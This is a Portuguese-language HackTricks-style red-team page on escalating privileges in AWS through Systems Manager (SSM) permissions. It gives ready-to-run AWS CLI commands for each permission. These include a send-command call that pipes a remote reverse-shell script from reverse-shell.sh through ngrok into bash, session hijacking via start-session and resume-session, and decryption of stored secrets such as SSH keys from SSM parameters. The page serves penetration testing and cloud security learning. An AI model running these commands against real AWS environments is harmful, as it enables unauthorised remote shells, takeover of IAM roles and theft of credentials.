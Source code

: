 # AWS - SSM Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## SSM

Para mais informações sobre SSM, confira:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Um atacante com a permissão **`ssm:SendCommand`** pode **executar comandos em instâncias** que estão rodando o Amazon SSM Agent e **comprometer o IAM Role** que está rodando dentro dele.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Caso você esteja usando essa técnica para escalar privilégios dentro de uma instância EC2 já comprometida, você pode apenas capturar o rev shell localmente com:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impacto Potencial:** Privesc direto para os papéis IAM do EC2 anexados a instâncias em execução com Agentes SSM em funcionamento.

### `ssm:StartSession`

Um atacante com a permissão **`ssm:StartSession`** pode **iniciar uma sessão semelhante ao SSH em instâncias** que executam o Agente SSM da Amazon e **comprometer o Papel IAM** que está em execução dentro dele.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Para iniciar uma sessão, você precisa do **SessionManagerPlugin** instalado: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impacto Potencial:** Privesc direto para os papéis IAM do EC2 anexados às instâncias em execução com Agentes SSM em execução.

#### Privesc para ECS

Quando as **tarefas ECS** são executadas com **`ExecuteCommand` habilitado**, usuários com permissões suficientes podem usar `ecs execute-command` para **executar um comando** dentro do contêiner.\
De acordo com [**a documentação**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), isso é feito criando um canal seguro entre o dispositivo que você usa para iniciar o comando “_exec_” e o contêiner de destino com o SSM Session Manager. (Plugin do SSM Session Manager necessário para que isso funcione)\
Portanto, usuários com `ssm:StartSession` poderão **obter um shell dentro das tarefas ECS** com essa opção habilitada apenas executando:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impacto Potencial:** Privesc direto para os papéis `ECS`IAM anexados a tarefas em execução com `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Um atacante com a permissão **`ssm:ResumeSession`** pode re-**iniciar uma sessão semelhante ao SSH em instâncias** executando o Amazon SSM Agent com um estado de sessão SSM **desconectado** e **comprometer o Papel IAM** em execução dentro dele.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impacto Potencial:** Privesc direto para os papéis IAM do EC2 anexados a instâncias em execução com Agentes SSM em execução e sessões desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Um atacante com as permissões mencionadas será capaz de listar os **parâmetros SSM** e **lê-los em texto claro**. Nesses parâmetros, você pode frequentemente **encontrar informações sensíveis** como chaves SSH ou chaves de API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impacto Potencial:** Encontrar informações sensíveis dentro dos parâmetros.

### `ssm:ListCommands`

Um atacante com esta permissão pode listar todos os **comandos** enviados e, esperançosamente, encontrar **informações sensíveis** neles.
```
aws ssm list-commands
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das linhas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Um atacante com essas permissões pode listar todos os **comandos** enviados e **ler a saída** gerada, na esperança de encontrar **informações sensíveis** nela.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impacto Potencial:** Encontre informações sensíveis dentro da saída dos comandos.

### Codebuild

Você também pode usar o SSM para acessar um projeto de codebuild que está sendo construído:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
